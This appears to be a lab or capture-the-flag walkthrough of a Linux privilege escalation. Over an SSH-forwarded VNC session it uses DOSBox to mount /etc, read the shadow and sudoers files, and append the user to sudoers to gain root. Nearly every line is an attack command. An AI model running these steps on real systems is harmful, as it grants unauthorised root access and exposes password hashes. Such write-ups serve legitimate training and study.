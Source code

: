 #### VNC to DosBox

```bash - linux
netstat -tulpn
```

Look for VNC service

We see VNC on port 5901.  Let's use port forwarding to access.
Kali:
```bash - kali
ssh -L 5901:localhost:5901 commander@$TARGET
```

Kali:
```bash - kali
vncviewer localhost:5901
```

Now we can open terminal in vncviewer and run dosbox:
```bash - target
dosbox
```

Let's mount the /etc directory to C:

```dosbox - target
mount C /etc
```

Change to the C drive:
```dosbox - target
C:
```

Check to see if you can read a high privileged file (shadow):
```dosbox - target
type shadow
```

```dosbox - target
type sudoers
```

Let's put our current user into the sudoers file:
```dosbox - target
echo $USER ALL=(ALL) ALL >> sudoers
```

Now back in target terminal:
```bash - target
sudo -i
```

